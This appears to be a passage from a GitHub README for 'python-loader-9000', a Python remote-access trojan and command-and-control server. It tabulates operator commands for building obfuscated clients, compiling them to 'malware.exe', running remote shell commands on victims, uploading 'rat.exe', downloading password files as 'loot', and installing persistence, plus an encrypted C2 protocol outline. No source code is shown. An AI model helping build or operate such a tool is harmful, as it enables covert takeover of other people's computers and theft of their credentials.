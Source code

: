## 🛠️ COMMAND REFERENCE

### **MAIN COMMANDS**
| Command | Description | Example |
|---------|-------------|---------|
| `list` | Show connected clients | `list` |
| `listen` | Change listen address | `listen 192.168.1.100:4444` |
| `build` | Build custom client | `build client.py 1.2.3.4 1337 obfuscate` |
| `compile` | Compile to executable | `compile client.py malware.exe` |
| `select` | Interact with client | `select 1` |
| `clear` | Clear screen | `clear` |
| `exit` | Shutdown server | `exit` |

### **CLIENT COMMANDS** (after selection)
| Command | Description | Example |
|---------|-------------|---------|
| `shell` | Execute remote command | `shell whoami` |
| `upload` | Upload file to client | `upload rat.exe C:\Windows\Temp\rat.exe` |
| `download` | Download file from client | `download C:\passwords.txt loot.txt` |
| `info` | Get system information | `info` |
| `persistence` | Install persistence | `persistence` |
| `back` | Return to main menu | `back` |

## 🏗️ ARCHITECTURE

```
python-loader-9000/
├── loader.py          # Main server implementation
├── client_template.py # Client base template
├── requirements.txt   # Python dependencies
├── README.md         # This file
└── examples/         # Usage examples
```

### **PROTOCOL SPECIFICATION**
- **JSON-based messaging** with length prefix
- **AES-256 encryption** for secure communications
- **Heartbeat mechanism** for connection monitoring
- **Error handling** with automatic reconnection

## ⚙️ CONFIGURATION
